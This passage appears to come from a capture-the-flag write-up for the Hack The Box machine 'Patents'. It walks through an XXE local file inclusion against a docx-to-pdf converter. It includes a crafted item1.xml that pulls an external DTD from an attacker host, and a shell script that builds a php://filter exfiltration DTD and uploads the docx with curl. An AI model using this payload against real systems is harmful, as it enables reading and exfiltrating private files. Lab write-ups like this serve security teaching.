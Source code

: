 Yields a number of things, but `/vendor/composer/installed` is a json file of the installed php libraries.  We find that gears/pdf is doing the conversion, utilizing LibreOffice headless on the command line.  Trying various CVEs don't work so it's likely version 6.0.7.  Also you can find the following:

### /release/UpdateDetails.txt
```
v1.2 alpha:
- meow@conquertheworld: Added ability to include patents. Still experimental, it's hidden.
v1.1 release:
- gbyolo@htb: Removed "meow fixes", they weren't real fixes.
v1.0 release:
- meow@conquertheworld: Fixed the following vulnerabilities:
1. Directory traversal
2. Local file inclusion (parameter)
v0.9 alpha:
- meow@conquertheworld.htb: Minor fixes, fixed 2 vulnerabilities. The Docx2Pdf App is ready.
v0.7 alpha:
- gbyolo@tb: fixed conversion parameters. Meow's changes for custom folder should now work.
v0.7 alpja:
- meow@conquertheworld.htb: enabled entity parsing in custom folder
- gbyolo@htb: added conversion of all files, to generate pdf compliant from docx
v0.6 alpha:
- gbyolo@htb: enabled docx conversion to pdf. Seems to work!
```

## XXE LFI

* Changing `item1.xml` in an unzipped docx file, adding the following
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://10.10.14.11/patents/ext.dtd">
    %ext;
    %param1;
]>
<message>&exfil;</message>
```

* Zip it up along with the rest of the xml files that compose the docx.
* Start running the `simple-http-server.js` that will serve the external DTD and decode the base64 to create the files retrieved through LFI.
* Setup a script `do-xxe.sh` that echos the external DTD with desired file to include and then makes a call to curl to upload the docx.
```sh
#!/bin/sh
NAME="binding"
LFI="${1}"
cd /home/zoey/htb/patents/xxe
echo "<!ENTITY % data SYSTEM \"php://filter/convert.base64-encode/resource=${LFI}\">\n<!ENTITY % param1 \"<!ENTITY exfil SYSTEM 'http://10.10.14.11/exfil-b64${LFI}?f=%data;'>\">\n" > ../ext.dtd
curl http://10.10.10.173/convert.php -F "userfile=@${NAME}_xxe.docx" -F "submit=Generate pdf" -H "Expect:"

```
